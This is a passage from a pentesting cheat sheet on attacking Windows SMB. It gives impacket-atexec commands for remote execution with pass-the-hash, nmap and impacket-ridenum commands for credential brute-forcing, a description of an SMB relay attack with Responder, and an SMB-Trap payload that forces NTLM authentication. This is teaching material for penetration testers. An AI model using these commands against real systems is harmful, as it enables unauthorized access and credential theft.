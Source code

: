 Execute commands via the Task Scheduler (using _\pipe\atsvc_ via SMB). In **kali** it is located on /usr/share/doc/python3-impacket/examples/

```
impacket-atexec [[domain/]username[:password]@]<targetName or address> "command"
impacket-atexec -hashes <LM:NT> administrator@10.10.10.175 "whoami"
```



## Bruteforce users credentials

**This is not recommended, you could block an account if you exceed the maximum allowed tries**

```
nmap --script smb-brute -p 445 <IP>

#Get usernames bruteforcing that rids and then try to bruteforce each user name
impacket-ridenum <IP> 500 50000 /root/passwds.txt 
```

## SMB relay attack

This attack uses the Responder toolkit to **capture SMB authentication sessions** on an internal network, and **relays** them to a **target machine**. If the authentication **session is successful**, it will automatically drop you into a **system** **shell**. [**More information about this attack here.**](https://book.hacktricks.xyz/generic-methodologies-and-resources/pentesting-network/spoofing-llmnr-nbt-ns-mdns-dns-and-wpad-and-relay-attacks)

## SMB-Trap

The Windows library URLMon.dll automatically try to authenticaticate to the host when a page tries to access some contect via SMB, for example: `img src="\\10.10.10.10\path\image.jpg"`

This happens with the functions:

- URLDownloadToFile
    
- URLDownloadToCache
    
- URLOpenStream
    
- URLOpenBlockingStream
    

Which are used by some browsers and tools (like Skype)

![](https://book.hacktricks.xyz/~gitbook/image?url=https%3A%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-L_2uGJGU7AVNRcqRvEi%252F-LkV6wNFZlmEJIFjwwSX%252F-LkVB4YL9epQFTQ8PYIH%252Fimage.png%3Falt%3Dmedia%26token%3D2b59ebee-7e13-4fae-9acd-ea631bc90108&width=768&dpr=4&quality=100&sign=bc1f1a0d&sv=1)

From: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html

### SMBTrap using MitMf

![](https://book.hacktricks.xyz/~gitbook/image?url=https%3A%2F%2F129538173-files.gitbook.io%2F%7E%2Ffiles%2Fv0%2Fb%2Fgitbook-legacy-files%2Fo%2Fassets%252F-L_2uGJGU7AVNRcqRvEi%252F-LkV6wNFZlmEJIFjwwSX%252F-LkVBIUwWHOD8q_VrQuw%252Fimage.png%3Falt%3Dmedia%26token%3Db3d4a307-af24-43ae-bf06-cb2f8fc057ca&width=768&dpr=4&quality=100&sign=ccc84af7&sv=1)

From: http://www.elladodelmal.com/2017/02/como-hacer-ataques-smbtrap-windows-con.html
